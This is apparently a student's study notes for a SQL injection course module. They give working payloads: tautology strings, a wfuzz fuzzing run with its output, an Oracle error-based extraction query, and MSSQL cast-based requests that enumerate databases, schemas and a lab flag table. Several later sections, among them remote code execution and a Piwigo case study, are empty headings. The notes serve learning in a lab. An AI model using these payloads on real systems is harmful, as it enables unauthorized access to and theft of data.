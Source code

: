# Module 9: SQL Injection

## Introduction to SQL Injection

### What is SQL Injection?

_Unsanitized user input inserrted into queries and passed to the database for execution._

## Testing for SQL Injection

### String Delimiters

_Example payload escaping our closing out a string delimiter_

```sql
' or 1=1 -- //
```

### Closing Out Strings and Functions

_Example payload escaping or closing out a function call_

```sql
foo') or 1=1 -- //
```

### Sorting

Use something like Burp Suite to modify the request parameters, ex. sort by ID being change to a column number.

### Boundary Testing

Submit values that may fall outside the scope of a limited data set. Previous example of submitting an invalid column number to receive an error could be considered as a form of Boundary Testing.&#x20;

### Fuzzing

<figure><img src="../../../.gitbook/assets/317664d7ec46dedd70e69b9e28173518-sqli_fuzzing_02.png" alt=""><figcaption><p><em>Capturing POST request to /api/intro in Burp Suite HTTP history</em></p></figcaption></figure>

_Using wfuzz to identify SQL injection_

{% code overflow="wrap" %}
```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=mysql&id=FUZZ" -u http://sql-sandbox/api/intro

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sql-sandbox/api/intro
Total requests: 125

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                         
=====================================================================

000000007:   500        0 L      48 W       342 Ch      "--';"
000000020:   500        0 L      48 W       360 Ch      "<>"'%;)(&+"  
000000003:   500        0 L      48 W       338 Ch      "#" 
000000014:   500        0 L      50 W       365 Ch      "\x3D%20\x3B'"  
000000021:   200        0 L      1 W        2 Ch        "'%20or%20''='" 
000000018:   500        0 L      52 W       361 Ch      "'or%20select *"  
000000015:   500        0 L      50 W       363 Ch      "\x3D%20\x27" 
000000025:   200        0 L      62 W       495 Ch      "0 or 1=1"
000000058:   500        0 L      48 W       341 Ch      "as"  
...

Total time: 0
Processed Requests: 125
Filtered Requests: 0
Requests/sec.: 0
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/018570ec77074ed0959118b9fa2fd39f-sqli_wfuzz_02.png" alt=""><figcaption><p><em>Using Repeater to test a payload</em></p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/1c0f005bf1da209986ab51cc3427cb6c-sqli_wfuzz_03.png" alt=""><figcaption><p><em>Using Repeater to exploit SQL injection</em></p></figcaption></figure>

## Exploiting SQL Injection

### Error-based Payloads

_Use errors to extract useful information._&#x20;

<figure><img src="../../../.gitbook/assets/b2f54d30b3d2e089ffffab448e90a85b-sqli_error_based_01.png" alt=""><figcaption><p>Error-based SQL injection in Microsoft SQL Server</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/0ca47b9d5d2603e47047d5202b7e1ef3-sqli_error_based_02.png" alt=""><figcaption><p>Error-based SQL injection using ExtractValue() in MySQL</p></figcaption></figure>

_Sample Oracle blind SQL injection payload_

```sql
01  to_char(
02    dbms_xmlgen.getxml(
03      'select "'||
04        (select substr(banner,0,30) from v$version where rownum=1)
05      ||'" from sys.dual'
06    )
07  ) 
```

_Using Offset to query our database name_

{% code overflow="wrap" %}
```sql
inStock=cast((SELECT+name+FROM+sys.databases+ORDER+BY+name+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY)+as+integer)&name=&sort=id&order=asc
```
{% endcode %}

_Identifying our schema_

{% code overflow="wrap" %}
```sql
inStock=cast((select+schema_name+from+exercise.information_schema.schemata+ORDER+BY+schema_name+OFFSET+9+ROWS+FETCH+NEXT+1+ROWS+ONLY)as+integer)&name=&sort=id&order=asc
```
{% endcode %}

_Querying the flag_

{% code overflow="wrap" %}
```sql
inStock=cast((select+flag+from+exercise.dbo.secrets)+as+integer)&name=&sort=id&order=asc
```
{% endcode %}

### UNION-based Payloads

<figure><img src="../../../.gitbook/assets/937ef9ac51b07de4b22b88395d17ea50-sqli_union_01.png" alt=""><figcaption><p>Using a UNION to combine two SELECT statements</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/2ca28ccbb1a1f7f1620dda7d47dadaa5-sqli_union_02.png" alt=""><figcaption><p>Executing a UNION-based SQL injection payload</p></figcaption></figure>

### Stacked Queries



### Reading and Writing Files



### Remote Code Execution



### Extra Miles



## Database dumping with Automated Tools

### SQLMap



## Case Study: Error-based SQLi in Piwigo

### Accessing Piwigo



### Discovering the Vulnerable Parameter



### Exploiting Error-based SQL Injection

